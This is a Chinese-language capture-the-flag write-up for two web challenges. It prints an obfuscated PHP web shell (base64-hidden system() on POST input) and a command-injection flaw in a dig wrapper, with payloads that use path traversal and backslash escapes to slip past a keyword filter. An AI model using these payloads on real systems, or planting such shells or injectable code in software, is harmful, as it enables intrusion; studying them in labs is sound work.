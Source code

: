 ### webshell
> http://140.110.112.78:2508

```php=
<?php

highlight_file(__FILE__);

eval(base64_decode("c3lzdGVtKCRfUE9"."TVFsxMjNdKTs="));
```
* 稍微 base64 decode 一下 `system($_POST[123]);`
* 送 post 參數是 123 直接是 shell 了
* 稍微找一下 flag 可以發現在根目錄
* payload : `cat ../../../flag`
* flag : `FLAG{webshell_bang!}`

### Cat Digger
> http://140.110.112.78:2509/

* 一臉就是 command injection 的樣子
* payload : `ip; your_command`
* source code
    ```php=
    <?php
    // get user input
    $ip = $_GET['ip'];
    $flag = 0;
    if(stripos($ip, "cat") !== FALSE) die("You can't use my cat!");
    if(stripos($ip, "flag") !== FALSE) die("My cat doesn't like flag!");

    $res = shell_exec("dig " . $ip);
    $flag = 1;

    ?>

    <head>
    <link rel="stylesheet" href="bootstrap.css" media="screen">
    </head>
    <body style="padding: 50px">
    <center>
    <div class="jumbotron">
    <h1>Digger</h1><br>
    <form method="get" style="width: 250px">
    <input type="text" placeholder="ip.." name="ip" class="form-control"><br>
    <input type="submit" class="btn btn-primary">
    </form><br>

    </center>
    <?php
    if($flag === 1) {
        echo "<hr>";
        echo "<pre>".$res."</pre>";
    }
    ?>
    </div>
    </body>
    ```
* 然後當你開心的用 `cat` 的時候 ... `You can't use my cat!`，所以用 \ 逃逸一下
* 然後當你開心的訪問 `flag` 的時候 ... `My cat doesn't like flag!`，所以用 \ 逃逸一下
* payload : `0.0.0.0; c\at ../../../fl\ag`
* flag : `FLAG{cat_flag_ez}`
